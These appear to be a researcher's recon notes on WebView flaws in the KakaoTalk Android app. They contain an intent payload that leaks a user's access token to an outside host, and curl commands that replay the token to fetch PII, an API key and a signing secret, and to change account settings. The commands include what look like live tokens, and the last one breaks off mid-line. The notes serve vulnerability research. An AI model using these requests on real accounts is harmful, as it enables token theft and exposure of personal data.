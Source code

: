 # WebView Recon

- [Low Severity Findings](#low-severity-findings)
- [To-Dos / Digging](#to-dos--digging)
  - [Tokens / Cookies](#tokens--cookies)
  - [JavaScript Interfaces](#javascriptinterface)
  - [Redirect Endpoints](#redirect-endpoints)
  - [XSS Endpoints](#possible-xss-endpoints)
  - [CSRF](#csrf)
  - [File Access / Content Providers](#file-access--content-providers)
  - [DownloadListener](#downloadlistenerondownloadstart)
  - [Deeplinks](#deeplinks)
  - [Kakao Pay](#kakao-pay)
  - [Misc](#misc)
- [Appendix](#appendix)
  - [Attack Vectors](#attack-vector-brainstorming)
  - [Payloads](#payloads)
  - [KGPopupActivity](#kgpopupactivity)
- [Resources](#resources)

> Disclaimer: Initial recon was performed on an older version of KakaoTalk (`10.1.7`).

> There are a lot of **TO-DO's** in this document where one can try to dig deeper.

## Low Severity Findings

- Access token leakage in non-exported `MyProfileSettingsActivity` via HTTP request header:
  - `location.href = "intent:#Intent;component=com.kakao.talk/.activity.setting.MyProfileSettingsActivity;S.EXTRA_URL=http://10.0.2.2:8888/;end"`

With this access token a couple of interesting REST APIs can be queried:

```bash
# Get phone number, e-mail address and other PII
curl -i -s -k -X $'GET' \
    -H $'Host: katalk.kakao.com' -H $'Accept-Language: en' -H $'User-Agent: KT/10.3.8 An/11 en' -H $'Authorization: 732900c017ec4704b10f9241a3a533e800000017002173708450010fW9JnsTbx7-1f832a7f5963fd31e14e6290394909ef930ce720b31bfd546271c6b5f3cefb54' -H $'A: android/9.5.0/en' -H $'C: a327a1ad-b417-499a-abf7-48da89076e7c' -H $'Accept-Encoding: json, deflate, br' -H $'Connection: close' \
    $'https://katalk.kakao.com/android/account/more_settings.json?os_version=30&model=SDK_GPHONE_ARM64&since=1693786891&lang=en&vc=2610380&email=2&adid=&adid_status=-1'

# Get more settings (including a Google API key and URL signing secret)
curl -i -s -k -X $'GET' \
    -H $'Host: katalk.kakao.com' -H $'Accept-Language: en' -H $'User-Agent: KT/9.5.0 An/11 en' -H $'Authorization: 732900c017ec4704b10f9241a3a533e800000017002173708450010fW9JnsTbx7-1f832a7f5963fd31e14e6290394909ef930ce720b31bfd546271c6b5f3cefb54' -H $'A: android/9.5.0/en' -H $'C: b2f4724a-7bac-4076-8864-021b5c9205ea' -H $'Accept-Encoding: json, deflate, br' -H $'Connection: close' \
    $'https://katalk.kakao.com/android/account/less_settings.json'

# Update settings
curl -i -s -k -X $'POST' \
    -H $'Host: katalk.kakao.com' -H $'Accept-Language: en' -H $'User-Agent: KT/9.5.0 An/11 en' -H $'Authorization: 106dc72ab6be4f11b321ac2f09fd0f53000000170014088214200107mOCAvLuEq-472ab54a821a25a17cfc511fe8f5ea4086837931d20e0de8688ef9c3a1ad7789' -H $'A: android/9.5.0/en' -H $'Adid: 0b1d9d5d-813f-4952-a3bc-b04628f04344' -H $'C: 9b5c6b99-67c2-4b7c-8047-7f3c2fbfa899' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 120' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: close' \
    --data-binary $'phone_type=1&sim_operator=310260&sim_eq=1&os_version=30&os_name=android&model=SDK_GPHONE_ARM64&screen_resolution=320x592' \
    $'https://katalk.kakao.com/android/account/update_settings.json'

# Kakaotalk "My Password"
curl -i -s -k -X $'GET' \
```